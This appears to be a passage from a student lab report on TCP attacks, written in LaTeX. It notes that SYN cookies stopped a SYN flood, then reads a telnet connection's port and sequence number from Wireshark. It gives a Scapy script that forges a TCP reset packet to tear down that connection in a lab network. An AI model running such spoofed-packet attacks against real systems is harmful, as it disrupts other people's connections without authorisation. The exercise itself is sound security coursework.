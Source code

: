 \documentclass[12pt]{article}
\begin{document}
We can see that we've enabled SYN cookies. In this one we can see the anti flood measures working as the user was able to successfully establish a connection this time.
Lets repeat again with the c program and see what happens.

\begin{figure}
  \includegraphics*{Task1.3cflood.png}
\end{figure}

Once again we can see the SYN cookies have been enabled and that the anti flood measured worked. The user was able to establish a connection.

\section*{Task 2}

For this one we need to obtain some information. In order to obtain this information we will need to use wireshark, we are looking for the ACK, SEQ, IP, and 
port. We will connect using telnet and and view the most recent TCP packet. Opening wireshark we can see the following.

\begin{figure}
  \includegraphics*{task2WiresharkPacket.png}
\end{figure}

In wireshark we can see the information we need. We can see the source ip address, the source port is 48336, and sequence is 2560596923. Using this information we will make the following program to launch the attack.  The code below 
will be what we use to launch the attack, it can be viewed in task2.py

\begin{lstlisting}
  #!/usr/bin/env python3
  from scapy.all import *
  from scapy.all import IP, TCP
  
  ip = IP(src="10.9.0.6", dst="10.9.0.5")
  tcp = TCP(sport=48336, dport=23, flags="R", seq=2560596923)
  pkt = ip/tcp
  ls(pkt)
  send(pkt, verbose=0)
\end{lstlisting}
\end{document}
